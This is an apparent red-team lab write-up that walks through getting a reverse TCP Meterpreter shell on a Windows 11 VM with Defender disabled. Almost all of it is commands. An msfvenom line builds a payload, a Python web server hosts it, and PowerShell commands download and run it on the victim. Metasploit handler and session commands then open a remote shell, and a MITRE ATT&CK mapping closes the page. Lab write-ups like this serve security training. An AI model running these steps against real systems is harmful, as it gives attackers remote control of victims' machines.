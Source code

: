 #  Red Team – Reverse TCP Shell

## Objective

Establish a reverse TCP Meterpreter shell on a Windows 11 VM using Metasploit.\
Note: For the Lab Windows Defender was disabled

---

## Toolset

- **Metasploit Framework**
- **msfvenom**
- **PowerShell**
- **Python HTTP Server**

---

## Payload Creation  
**(For Educational Purposes Only)**

Payload: reverse TCP Meterpreter\
Target: 64-bit Windows\
Format: .exe

bash (attacker):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp rhost=192.168.1.81 LPORT=4444 -f exe -o revshell.exe
```

Delivery via PowerShell\
Host the payload on a web server:

bash (attacker):
```bash
python3 -m http.server 8080
````
Fetch and execute on the Windows target:

Powershell (victim):
````powershell
Invoke-WebRequest http://192.168.1.81:8080/revshell.exe -OutFile revshell.exe
````
````powershell
Start-Process revshell.exe
````
Listener Setup

bash(attacker):
````bash
msfconsole
````
````bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.81
set lport 4444
exploit -j
````
## Connect to shell
````bash
sessions

sessions -i 1
````
````bash
shell
````
## Results:
###### A Meterpreter session was successfully established on the attacker's system after execution.

## MITRE ATT&CK Mapping

| Technique	             |  ID           |
| ---------------------- | ------------- |
| PowerShell Execution   |  T1059.001    |
| Ingress Tool Transfer  |  T1105        |
| User Execution         |  T1204.002    |
| Common Ports           |  T1043        |
